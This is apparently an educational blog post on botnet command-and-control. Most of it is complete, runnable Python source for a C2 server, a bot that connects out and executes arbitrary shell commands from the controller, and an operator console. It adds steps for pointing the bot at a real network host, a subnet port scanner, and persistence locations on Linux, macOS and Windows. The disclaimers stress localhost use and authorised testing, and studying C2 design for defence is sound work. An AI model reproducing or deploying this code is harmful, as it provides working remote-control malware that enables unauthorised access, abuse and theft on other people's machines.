


> This post is for educational purposes only. Everything here runs on your own machine.
> Do not deploy this against systems you don't own. Unauthorized access to computer systems
> is illegal in virtually every jurisdiction.

## What is a Botnet?

A botnet is a network of compromised machines -- called **bots** -- all controlled by a single
operator through a **command and control (C2) server**. The person running the operation is
called the **bot herder**.

Botnets are used for things like distributed denial-of-service (DDoS) attacks, spam campaigns,
credential stuffing, and cryptomining. Understanding how they're built is useful for defenders
because you can't detect or disrupt something you don't understand.

## Architecture

A centralized botnet has three components:

- **Bot** -- malware running on a compromised machine. Connects out to the C2 server, waits
  for commands, executes them, and sends results back.
- **C2 Server** -- the hub. Accepts incoming connections from bots and from the operator,
  maintains a registry of connected bots, and routes commands.
- **Operator** -- the bot herder's interface. Connects to the C2 server to list bots, select
  a target, and issue commands.



### Why bots connect outward

The C2 server never initiates a connection to a bot. The bots always connect *out* to the C2.
This is intentional -- most firewalls block unsolicited inbound connections but allow outbound
TCP freely. By having bots initiate the connection on a common port (443, 80, etc.), the
traffic blends in with normal web traffic and passes through corporate and home firewalls
without special rules.

This asymmetry is a core reason botnets are difficult to block purely at the network level.

### C2 architecture types

The centralized model we're building is the simplest, but not the only one used in the wild:

| Type | How it works | Weakness |
|---|---|---|
| **Centralized (TCP/HTTP)** | Bots connect to a single server | Take down the server, botnet goes dark |
| **IRC-based** | Bots join an IRC channel and listen for commands | Easy to infiltrate, IRC servers often blocked |
| **HTTP polling** | Bots periodically GET a page for new commands | Looks like normal web traffic, hard to block |
| **P2P** | Bots form a mesh, no single C2 | No single point of failure, very resilient |
| **DGA** | Bots generate domain names algorithmically to find the active C2 | Hard to preemptively block all generated domains |

## What we're building

This post covers **C2 infrastructure** -- the server and clients -- not bot propagation (getting
malware onto machines in the first place). Propagation is a separate topic involving exploit
delivery, phishing, or physical access. We're only building the communication layer.

The full demo runs entirely on `127.0.0.1`. You'll need three terminal windows.

## Prerequisites

- Python 3.6+
- No third-party packages -- standard library only

## The protocol

All three components communicate over TCP using a simple length-prefixed binary protocol.
Every message is a 4-byte big-endian unsigned integer (the payload length) followed by the
UTF-8 encoded payload. This is more robust than newline-delimited messages because command
output can contain newlines.

We'll define two helper functions used by all three scripts:

```python
import struct

def send_msg(sock, text):
    data = text.encode()
    sock.sendall(struct.pack(">I", len(data)) + data)

def recv_msg(sock):
    header = _recvall(sock, 4)
    if header is None:
        return None
    (length,) = struct.unpack(">I", header)
    payload = _recvall(sock, length)
    return payload.decode() if payload is not None else None

def _recvall(sock, n):
    buf = b""
    while len(buf) < n:
        chunk = sock.recv(n - len(buf))
        if not chunk:
            return None
        buf += chunk
    return buf
```

To keep things self-contained, these helpers are inlined into each script rather than imported
from a shared module.

---

## Part 1: Localhost Demo

### C2 Server -- `cnc.py`

The C2 server listens for incoming connections. Each connecting client identifies itself
immediately after connecting -- either as a `BOT` or as an `OPERATOR`. The server maintains
a thread-safe registry of connected bots. When an operator issues a `run` command, the server
forwards it to the selected bot and returns the output.

```python
# cnc.py
import socket
import struct
import sys
import threading

HOST = "0.0.0.0"
PORT = 9999

bots = {}           # {bot_id: {"conn": socket, "addr": (ip, port)}}
bot_lock = threading.Lock()
next_bot_id = 0


# ---------- protocol helpers ----------

def send_msg(sock, text):
    data = text.encode()
    sock.sendall(struct.pack(">I", len(data)) + data)


def recv_msg(sock):
    header = _recvall(sock, 4)
    if header is None:
        return None
    (length,) = struct.unpack(">I", header)
    payload = _recvall(sock, length)
    return payload.decode() if payload is not None else None


def _recvall(sock, n):
    buf = b""
    while len(buf) < n:
        chunk = sock.recv(n - len(buf))
        if not chunk:
            return None
        buf += chunk
    return buf


# ---------- bot handler ----------

def handle_bot(conn, addr, bot_id):
    print(f"[+] Bot {bot_id} registered from {addr[0]}:{addr[1]}")
    with bot_lock:
        bots[bot_id] = {"conn": conn, "addr": addr}
    try:
        # Bot sits idle -- the operator handler talks to it directly.
        # We just need to keep the connection alive and detect disconnect.
        conn.settimeout(None)
        while True:
            # A zero-length recv means the bot disconnected.
            data = conn.recv(1)
            if not data:
                break
    except Exception:
        pass
    finally:
        with bot_lock:
            bots.pop(bot_id, None)
        conn.close()
        print(f"[-] Bot {bot_id} disconnected")


# ---------- operator handler ----------

def handle_operator(conn, addr):
    print(f"[+] Operator connected from {addr[0]}:{addr[1]}")
    selected = None  # currently selected bot_id

    try:
        send_msg(conn, "Connected to C2. Commands: list, use <id>, run <cmd>, quit")

        while True:
            raw = recv_msg(conn)
            if raw is None:
                break
            cmd = raw.strip()

            if cmd == "help":
                send_msg(conn, "Commands: list, use <id>, run <cmd>, quit")

            elif cmd == "list":
                with bot_lock:
                    if not bots:
                        send_msg(conn, "(no bots connected)")
                    else:
                        lines = [
                            f"  [{bid}] {info['addr'][0]}:{info['addr'][1]}"
                            for bid, info in bots.items()
                        ]
                        send_msg(conn, "\n".join(lines))

            elif cmd.startswith("use "):
                parts = cmd.split(None, 1)
                if len(parts) < 2 or not parts[1].isdigit():
                    send_msg(conn, "Usage: use <id>")
                    continue
                bid = int(parts[1])
                with bot_lock:
                    if bid in bots:
                        selected = bid
                        send_msg(conn, f"Selected bot {bid} ({bots[bid]['addr'][0]})")
                    else:
                        send_msg(conn, f"Bot {bid} not found.")

            elif cmd.startswith("run "):
                if selected is None:
                    send_msg(conn, "No bot selected. Use 'use <id>' first.")
                    continue
                command = cmd.split(None, 1)[1]
                with bot_lock:
                    bot = bots.get(selected)
                if bot is None:
                    send_msg(conn, f"Bot {selected} is no longer connected.")
                    selected = None
                    continue
                try:
                    send_msg(bot["conn"], command)
                    output = recv_msg(bot["conn"])
                    send_msg(conn, output if output else "(no output)")
                except Exception as e:
                    send_msg(conn, f"Error communicating with bot: {e}")

            elif cmd == "quit":
                send_msg(conn, "Goodbye.")
                break

            else:
                send_msg(conn, f"Unknown command: '{cmd}'. Type 'help'.")

    except Exception as e:
        print(f"[!] Operator error: {e}")
    finally:
        conn.close()
        print(f"[-] Operator {addr[0]}:{addr[1]} disconnected")


# ---------- main ----------

def main():
    global next_bot_id

    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    try:
        server.bind((HOST, PORT))
    except OSError as e:
        print(f"[!] Failed to bind to {HOST}:{PORT} -- {e}")
        sys.exit(1)
    server.listen(50)
    print(f"[*] C2 listening on {HOST}:{PORT}")

    while True:
        conn, addr = server.accept()
        role = recv_msg(conn)
        if role is None:
            conn.close()
            continue

        if role == "BOT":
            with bot_lock:
                next_bot_id += 1
                bid = next_bot_id
            t = threading.Thread(
                target=handle_bot, args=(conn, addr, bid), daemon=True
            )
            t.start()
        elif role == "OPERATOR":
            t = threading.Thread(
                target=handle_operator, args=(conn, addr), daemon=True
            )
            t.start()
        else:
            conn.close()


if __name__ == "__main__":
    main()
```

Key points:

- `threading.Thread` per connection so bots don't block each other.
- `bot_lock` protects the shared `bots` dict from race conditions.
- The operator handler accesses a bot's socket directly and relays the command. The C2 is
  the intermediary -- the operator never holds a direct connection to any bot.
- `SO_REUSEADDR` lets you restart the server quickly without waiting for the OS to release
  the port.

### Bot -- `bot.py`

The bot connects outward to the C2, registers itself, then sits in a loop waiting for
commands. Each command is executed via `subprocess` and the output (stdout + stderr combined)
is sent back.

```python
# bot.py
import socket
import struct
import subprocess
import sys
import time

C2_HOST = "127.0.0.1"
C2_PORT = 9999
RECONNECT_DELAY = 5  # seconds to wait before reconnecting after a dropped connection


# ---------- protocol helpers ----------

def send_msg(sock, text):
    data = text.encode()
    sock.sendall(struct.pack(">I", len(data)) + data)


def recv_msg(sock):
    header = _recvall(sock, 4)
    if header is None:
        return None
    (length,) = struct.unpack(">I", header)
    payload = _recvall(sock, length)
    return payload.decode() if payload is not None else None


def _recvall(sock, n):
    buf = b""
    while len(buf) < n:
        chunk = sock.recv(n - len(buf))
        if not chunk:
            return None
        buf += chunk
    return buf


# ---------- command execution ----------

def execute(command):
    try:
        result = subprocess.run(
            command,
            shell=True,
            capture_output=True,
            text=True,
            timeout=30,
        )
        output = result.stdout + result.stderr
        return output.strip() if output.strip() else "(no output)"
    except subprocess.TimeoutExpired:
        return "(command timed out after 30s)"
    except Exception as e:
        return f"(execution error: {e})"


# ---------- main loop ----------

def run():
    while True:
        conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        try:
            conn.connect((C2_HOST, C2_PORT))
            send_msg(conn, "BOT")
            print(f"[*] Registered with C2 at {C2_HOST}:{C2_PORT}")

            while True:
                command = recv_msg(conn)
                if command is None:
                    print("[!] C2 connection closed.")
                    break
                print(f"[*] Executing: {command}")
                output = execute(command)
                send_msg(conn, output)

        except Exception as e:
            print(f"[!] {e}. Reconnecting in {RECONNECT_DELAY}s...")
        finally:
            conn.close()

        time.sleep(RECONNECT_DELAY)


if __name__ == "__main__":
    run()
```

Key points:

- The reconnect loop means the bot will keep trying to reach the C2 after a disconnect.
  This mirrors real-world bot behavior -- bots are designed to be resilient to C2 downtime.
- `subprocess.run` with `shell=True` runs the command through the system shell, which is
  why arbitrary shell syntax (pipes, redirects, etc.) works.
- stdout and stderr are combined so the operator sees both normal output and error messages.
- A 30-second timeout prevents a long-running command from hanging the bot indefinitely.

### Operator CLI -- `operator.py`

The operator connects to the C2, identifies as an operator, and gets an interactive prompt
to manage bots.

```python
# operator.py
import socket
import struct
import sys

C2_HOST = "127.0.0.1"
C2_PORT = 9999


# ---------- protocol helpers ----------

def send_msg(sock, text):
    data = text.encode()
    sock.sendall(struct.pack(">I", len(data)) + data)


def recv_msg(sock):
    header = _recvall(sock, 4)
    if header is None:
        return None
    (length,) = struct.unpack(">I", header)
    payload = _recvall(sock, length)
    return payload.decode() if payload is not None else None


def _recvall(sock, n):
    buf = b""
    while len(buf) < n:
        chunk = sock.recv(n - len(buf))
        if not chunk:
            return None
        buf += chunk
    return buf


# ---------- main ----------

def main():
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        conn.connect((C2_HOST, C2_PORT))
    except ConnectionRefusedError:
        print(f"[!] Could not connect to C2 at {C2_HOST}:{C2_PORT}. Is cnc.py running?")
        sys.exit(1)

    send_msg(conn, "OPERATOR")

    # Print the welcome message
    welcome = recv_msg(conn)
    if welcome:
        print(welcome)

    while True:
        try:
            cmd = input("\nc2> ").strip()
        except (KeyboardInterrupt, EOFError):
            cmd = "quit"

        if not cmd:
            continue

        send_msg(conn, cmd)
        response = recv_msg(conn)

        if response is not None:
            print(response)

        if cmd == "quit":
            break

    conn.close()


if __name__ == "__main__":
    main()
```

### Running the demo

You need three terminals open in the same directory.

**Terminal 1 -- start the C2 server:**

```bash
python cnc.py
```

```
[*] C2 listening on 0.0.0.0:9999
```

**Terminal 2 -- start a bot:**

```bash
python bot.py
```

```
[*] Registered with C2 at 127.0.0.1:9999
```

You'll also see the C2 terminal print:

```
[+] Bot 1 registered from 127.0.0.1:PORT
```

**Terminal 3 -- connect as the operator:**

```bash
python operator.py
```

```
Connected to C2. Commands: list, use <id>, run <cmd>, quit

c2> list
  [1] 127.0.0.1:PORT

c2> use 1
Selected bot 1 (127.0.0.1)

c2> run whoami
your-username

c2> run uname -a
Linux hostname 5.15.0 ...

c2> run ls /tmp
file1
file2

c2> quit
Goodbye.
```

You can open more terminals and run additional instances of `bot.py` to simulate a multi-bot
network. Each gets its own ID and can be targeted independently.

### What's happening under the hood



---

## Part 2: Extending to a Real Network

The C2 server and bot code work identically on a real network -- the only change is the
IP address the bot connects to.

> Only do this on machines and networks you own or have explicit written authorization to
> test against. Running a bot on someone else's machine without consent is unauthorized
> access.

### Pointing the bot at a real C2

On the machine you want to act as the C2, find its IP:

```bash
ip addr show   # Linux
ipconfig       # Windows
```

Then update `C2_HOST` in `bot.py`:

```python
C2_HOST = "192.168.1.50"  # your C2 machine's IP
```

Make sure port 9999 is reachable from the bot machine. If there's a firewall between them,
you'll need to open the port or use a port that's already allowed outbound (like 443 if you
move to TLS, or 80).

### Scanning for reachable hosts

If you want to discover what hosts are up on your local network before deploying a bot
manually, here's a corrected port scanner. The original version in most examples has a
subtle bug -- the `finally` block runs regardless of whether the port was open, so you
need to check inside the `try`:

```python
# scan.py
import ipaddress
import socket


def scan(cidr, ports=None, timeout=0.5):
    """Scan a CIDR range for hosts with open TCP ports.

    Only use this on networks you own or have explicit permission to scan.

    Args:
        cidr: network range, e.g. "192.168.1.0/24"
        ports: list of port numbers to check, defaults to [22, 80, 443, 8080]
        timeout: seconds to wait per connection attempt

    Returns:
        list of (ip_str, [open_ports]) tuples
    """
    if ports is None:
        ports = [22, 80, 443, 8080]

    results = []
    for ip in ipaddress.IPv4Network(cidr, strict=False):
        ip_str = str(ip)
        open_ports = []
        for port in ports:
            try:
                with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                    s.settimeout(timeout)
                    s.connect((ip_str, port))
                    open_ports.append(port)
            except (socket.timeout, ConnectionRefusedError, OSError):
                pass
        if open_ports:
            results.append((ip_str, open_ports))

    return results


if __name__ == "__main__":
    import sys
    cidr = sys.argv[1] if len(sys.argv) > 1 else "192.168.1.0/24"
    print(f"Scanning {cidr}...")
    for ip, ports in scan(cidr):
        print(f"  {ip}: {ports}")
```

Run it against your own subnet:

```bash
python scan.py 192.168.1.0/24
```

```
Scanning 192.168.1.0/24...
  192.168.1.1: [80, 443]
  192.168.1.50: [22]
  192.168.1.101: [22, 8080]
```

The bug in the naive version is using `finally` to append results:

```python
# broken -- finally always runs, open_ports is always empty at this point
try:
    socket.connect(...)
    host[-1].append(port)
except:
    pass
finally:
    if len(host[-1]) > 0:  # this check is pointless, finally runs either way
        hosts.append(host)
```

The fix is to just check inside the `try` (which only runs on a successful connect) and
skip the `finally` entirely, as shown above.

### Persistence

In a real deployment, bots are made persistent so they survive reboots. The mechanism
depends on the OS:

- **Linux** -- cron job (`@reboot python /path/to/bot.py`) or a systemd user service unit
- **macOS** -- a `launchd` plist in `~/Library/LaunchAgents/`
- **Windows** -- a registry `Run` key under `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

Persistence is worth understanding from a detection standpoint. These are exactly the
locations defenders check when investigating a compromised machine.

---

## What's missing from this implementation (intentionally)

This is a minimal educational demo. Real botnets add layers this post doesn't cover:

- **Encryption** -- all traffic here is plaintext. Real C2 traffic uses TLS or custom
  obfuscated protocols.
- **Authentication** -- any process that knows the port can connect as an operator or
  register as a bot. A real C2 uses a shared secret or certificate.
- **Evasion** -- real bots disguise their traffic (HTTP headers, domain fronting, sleeping
  randomly to avoid beaconing detection).
- **Resilience** -- a single C2 server is a single point of failure. Real operations use
  multiple C2s, redirectors, or P2P meshes.
- **Bot propagation** -- getting the bot binary onto a machine in the first place is a
  completely separate problem involving exploit delivery, phishing, or physical access.

Understanding what's missing is as important as understanding what's here -- these are the
gaps defenders look to close and the gaps attackers work to exploit.

---

## Disclaimer

This post is strictly educational. The code demonstrates C2 architecture concepts for
learning and research purposes. Deploying this -- or anything derived from it -- against
systems you do not own is illegal under the Computer Fraud and Abuse Act (US), the Computer
Misuse Act (UK), and equivalent laws in most countries. The author takes no responsibility
for misuse.
